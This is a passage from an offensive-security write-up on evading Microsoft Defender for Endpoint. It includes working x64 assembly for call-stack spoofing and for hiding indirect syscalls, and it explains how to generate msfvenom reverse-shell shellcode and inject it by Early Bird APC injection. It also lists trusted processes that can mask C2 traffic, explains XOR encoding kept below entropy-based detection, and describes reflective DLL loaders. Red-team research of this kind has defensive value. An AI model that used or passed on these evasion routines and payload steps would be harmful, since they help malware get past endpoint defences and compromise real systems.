mov r10, [r13 + pRtlUserThreadStart_RetAddr]
push r10
; --- BaseThreadInitThunk frame ---
mov r10, [r13 + dwBaseThreadInitThunk_Size]
sub rsp, r10
mov r10, [r13 + pBaseThreadInitThunk_RedAddr]
push r10
; --- Gadget frame ---
mov r10, [r13 + dwGadget_Size]
sub rsp, r10
mov r10, [r13 + pGadgetAddr]
push r10
mov r10, [r13 + pArgs]
mov qword [rsp + 40], 0
mov qword [rsp + 48], 0
mov qword [rsp + 56], 512
mov qword [rsp + 64], 1
mov r11, [r13 + arg8] ; mov [rsp + 72], r11
mov [rsp + 72], r11
mov r11, [r13 + arg9] ; mov [rsp + 80], r11
mov [rsp + 80], r11
mov r11, [r13 + arg10] ; mov [rsp + 88], r11
mov [rsp + 88], r11
.setup_registers
mov rcx, [r10]
mov rdx, [r10 + 8]
mov r8, [r10 + 16]
mov r9, [r10 + 24]
.setup_rbx:
lea r10, [rel .restore]
mov [r13 + pRbx], r10
lea rbx, [r13 + pRbx]
jmp [r13 + pTargetFunction]
.restore:
mov r10, [r13 + dwRtlUserThreadStart_Size]
add rsp, r10
add rsp, 8
mov r10, [r13 + dwBaseThreadInitThunk_Size]
add rsp, r10
add rsp, 8
mov r10, [r13 + dwGadget_Size]
add rsp, r10
add rsp, 8
jmp r15It is important to note that the direct NtCreateUserProcess function from the NTDLL needs to be used here in order not to misalign the stack. Moreover, the push 0 instruction is to stop the process of unwinding the stack. After this process the call stack should look like this:

The resumed steps are as follows:
- Push a 0 in order to stop the stack unwinding process
- Subtract the size of the RtlUserThreadStart stack frame to rsp (the stack pointer)
- Push the return address of RtlUserThreadStart
- Subtract the size of the BaseThreadInitThunk stack frame to rsp (the stack pointer)
- Push the return address of BaseThreadInitThunk
- Subtract the size of the Gadget's function stack frame to rsp (the stack pointer)
- Push the return address of the Gadget's function
- Jump to the address of NtCreateUserProcess function
- Restore the stack
In order to get the return addresses of the RtlUserThreadStart and BaseThreadInitThunk an offset is needed. The address of the function plus the offset is the return address. To know this value, x64dbg can be opened in the call stack tab: the offset for RtlUserThreadStart is 0x2C and for BaseThreadInitThunk is 0x17.

However, MDE does not take the call stack into account. MDE still shows the process creation from kernel callbacks:

A strange phenomenon has been observed when functions are used after the call stack spoofing function's curl braces block. The program does not crash when further functions are used inside the same curl braces block. However, if functions are used after this block, the program crashes. The image below illustrates this phenomenon:
E. Hiding Syscalls via Stack Manipulation
This section will illustrate a variant of the method seen in the D. Mitigating call stack inspection section. This variant aims at executing an indirect syscall and hiding it completely in the call stack. However, MDE will still detect the creation of a process through kernel callbacks.
As seen in the previous sections, when an indirect syscall is executed using a syscall trampoline followed by a ret instruction, this ret instruction will pop the return address off the stack and jump to the specified address in order to restore the execution of the program ,meaning advancing the stack pointer after the function's call. Using what was learned in the previous section about call stack mitigation, it is then possible to completely hide an indirect syscall from the call stack by directly implementing the syscall in ASM and using the jmp qword [rbx] gadget. Indeed, if the address of this gadget is pushed onto the stack, when the indirect syscall will hit the ret instruction, it will redirect the program's execution flow to this gadget (qword [rbx] gadget). Hence, letting us control the return address as rbx can be set up beforehand. The rbx register will be set to the address of the .restore section which will restore the stack, efficiently hiding the indirect syscall from it:
global Spoof
section .text
Spoof:
pop r15
mov r13, rcx
push 0
; Gadget's frame
mov r10, [r13 + dwGadget_Size]
sub rsp, r10
mov r10, [r13 + pGadgetAddr]
push r10
mov qword [rsp + 40], 0
mov qword [rsp + 48], 0
mov qword [rsp + 56], 512
mov qword [rsp + 64], 1
mov r11, [r13 + arg8]
mov [rsp + 72], r11
mov r11, [r13 + arg9]
mov [rsp + 80], r11
mov r11, [r13 + arg10]
mov [rsp + 88], r11
.setup_registers
mov rcx, [r10]
mov rdx, [r10 + 8]
mov r8, [r10 + 16]
mov r9, [r10 + 24]
.setup_rbx:
lea r10, [rel .restore]
mov [r13 + pRbx], r10
lea rbx, [r13 + pRbx]
mov r10, rcx
mov eax, [r13 + ssn]
jmp [r13 + jmp_stub]
.restore:
mov r10, [r13 + dwGadget_Size]
add rsp, r10
add rsp, 8
jmp r15Since, only the gadget's return address is present on the stack, it is the only element that will be detected by a stack walker. This observation is shown below:

However, as the following figure shows, MDE still detect the NtCreateUserProcess function call through the process creation kernel callback:
This section concludes with the work on EDR evasion through the use of in-depth Windows internals. As shown in the previous sections, a low-level function triggering no kernel callback can be completely undetected. Nonetheless, a function triggering kernel callbacks will always be detected, even if the syscall disappears completely from the call stack and the context can be manipulated (PPID spoofing) to increase the syscall's legitimacy. The next section will present the topic from an operational point of view by integrating real C2 payloads.
VII. Integrating Command and Control Payloads (C2)
C2 payloads will be gradually integrated, beginning with msfvenom payloads without any encoding to a complete payload in order to have full C2 capacities. Msfvenom which is the combination of msfpayload and msfencode, can be used to create C2 payloads compatible with all architectures:
The created payload which is a shellcode and that looks like the following in hexadecimal:

However, this shellcode needs to be formatted one byte per one byte in order to fit in the Rust code, which can be done with the following command:
hexdump -v -e '1/1 "0x%02x\n"' shellcode.bin > shellcode.finIt is important to notice that there is no order notion (Big Endian or Little Endian) in a raw data block when bytes are displayed or formatted one by one.
Then, if we change the shellcode of the previous Early Bird injection to the newly created payload, a reverse shell should be initiated:
A new networking line appears in MDE as a new external connection is instantiated:

As the payload triggers network telemetry in the EDR's console, an appropriate process in which the network traffic could seem legitimate could be chosen. The table below resumes processes with multiple levels of trust for executing the payload:
| High-level trust | Mid-level trust | Low-level trust |
|---|---|---|
| Web browsers: chrome.exe, msedge.exe, firefox.exe, brave.exe and opera.exe. Mailbox clients: outlook.exe, mail.exe. Collaborative tools: teams.exe, slack.exe, discord.exe, zoom.exe, skype.exe and webex.exe. | Cloud syncing process: onedrive.exe, dropbox.exe and googledrivesync.exe. Microsoft store process: RuntimeBroker.exe and backgroundTaskHost.exe. Updates: msedgeupdate.exe, googleupdate.exe, firefoxupdater.exe, javaupdate.exe and adobeupdater.exe. | Calc.exe, Notepad.exe, Rundll32.exe, Regsvr32.exe, Powershell.exe, Cmd.exe |
VIII. Defeating Static Analysis: API Hashing and Obfuscation Techniques
API hashing is a technique that aims at hiding the imported functions used of the Windows API. Imported functions are contained in the Imported Address Table (IAT). In order to make the static analysis more difficult, names of imported functions can be hashed and resolved during runtime. Once the opposite operation has been carried out during runtime, names of functions can be revealed, hence addresses can be resolved using the EAT. Once a pointer to the function is obtained, with the signature of the function, a function type pointer can be created and the function can be called. API hashing won't be implemented as it increases the entropy which enhances detection capacities from EDRs.
Function type pointers work in low-level programming languages since function declaration in many languages are only pointers specifying the function memory layout (function's signature).
In order to reduce static analysis to the maximum, msfvenom capabilities will be leveraged such as obfuscating using encodings and iterations. A popular encoding is XOR encoding in x64 architecture which applies a XOR filter. However, it is important to keep in mind that applying encoding and encryption to elements increases the randomness of the code which increases the entropy of the solution. This causes a problem as EDRs also detect malicious binaries based on their entropy. Hence, if the entropy of our payload exceeds the entropy threshold, it will be detected.
An encoding can be precised with the -e option and iterations, which is the application of the encoding multiple times, can be indicated with -i on metasploit:

As seen below, the payload works as previously observed:

Additionally, no more alerts have been raised, which demonstrates that the entropy of the solution is under the threshold:
Additionally, the injected shellcode can be hardcoded and encrypted in the solution, to prevent EDRs detecting its signature if a commercial payload is used. Then the encrypted payload can be decrypted during runtime in order to be loaded into the wanted memory space. A symmetric algorithm like AES should be used. However, the metasploit payload used did not trigger any alerts on MDE, only MITRE classification. Hence this won't be implemented as well.
IX. State of the Art
In my opinion, state of the art loaders focus on exploiting mechanisms around DLL loading instead of attempting to exploit pure Windows internals. A proposed approach is to bypass the native Windows DLL loader, which is used to load DLL on Windows, by using Position Independent Code (PIC) that will work no matter where the code ends up in memory. One way to create PIC code is to use Crystal Palace. However, Reflective DLL Injection (RDI), shellcode Reflective DLL Injection (sRDI) and User-defined Reflective Loader (UdRL) should be explained in order to understand historically what led to PIC code.
The idea of RDI is elegant: instead of relying on the Windows loader to map the DLL into memory and handle all the setup steps, why not make the DLL do it itself. To make this possible the DLL exports a special function, conventionally named ReflectiveLoader, which is responsible for performing all the steps that the Windows loader would normally handle:
- Allocate enough memory to hold the DLL image
- Copy the DLL sections into that allocated memory
- Fix the base relocations
- Resolve the Import Address Table (IAT)
- Set the correct memory permissions for each section
- Call the DLL entry point
However, it comes with a limitation, as to call the ReflectiveLoader function an external loader is needed, therefore it is not position independent code.
sRDI is the natural evolution of RDI. Two main types of loaders were created to trigger the ReflectiveLoader function directly in the DLL: the first one places a small shellcode stub inside the MS-DOS header responsible for finding the exported ReflectiveLoader function and calling it, the second one prepends a loader directly into the DLL.
However, this approach has a default, when the loader allocates memory for the DLL, it allocates it from unbacked memory space, meaning that Windows doesn't have any record of this memory region, which is a clear IoC of injection detectable using call stack inspection.
User-defined Reflective Loader (UdRL) is a concept that emerged in order to perform sRDI with Crystal Palace, which is a linker used to make Position Independent Code (PIC). Crystal Palace permits to load a DLL without the Windows loader, which allows to defeat detections.
X. References
- BlackSnufkin/BYOVD: BYOVD research use cases featuring vulnerable driver discovery and reverse engineering methodology.
- Comprendre le format Portable Executable (PE) | by Hamza Zarfaoui | Medium
- Anatomy of the Portable Executable (PE) Format – Deep Hacking
- Analyse statique des exécutables Windows : la structure PE | Connect - Editions Diamond
- PE Format - Win32 apps | Microsoft Learn
- EDR Bypass: Retrieving Syscall ID with Hell's Gate, Halo's Gate, FreshyCalls and Syswhispers2
- NtQueueApcThread & NtTestAlert Shellcode Execution | Infiltr8
- APC Queue Code Injection | Red Team Notes
- Early Bird APC Queue Code Injection | by 0xmani | Medium
- Early Bird APC Queue Code Injection | Red Team Notes
- PPID Spoofing & BlockDLLs with NtCreateUserProcess - Offensive Defence
- Hells Gate Rust - EDR Evasion with syscalls - 0xflux Red Team Manual
- Code injection via undocumented Native API functions - cocomelonc
- x64dbg/src/dbg/ntdll/ntdll.h
- LPTHREAD_START_ROUTINE in windows::Win32::System::Threading - Rust
- Bypassing EDR in a Crystal Clear Way | Lorenzo Meacci
- DEF CON 31 - StackMoonwalk - Alessandro Magnosi, Arash Parsa, Athanasios Tserpelis
- Spoofing Call Stacks To Confuse EDRs | WithSecure™ Labs
- An Introduction into Stack Spoofing
- Call stack spoofing explained using APT41 malware – CYBER GEEKS
- x64 Call Stack Spoofing | HulkOps
- Antivirus (AV) Bypass - HackTricks
- Windows Kernel Drivers 101 | Red Team Notes
- BYOVD to the next level (part 1) — exploiting a vulnerable driver (CVE-2025-8061) - Quarkslab
- NtDoc - The native NT API online documentation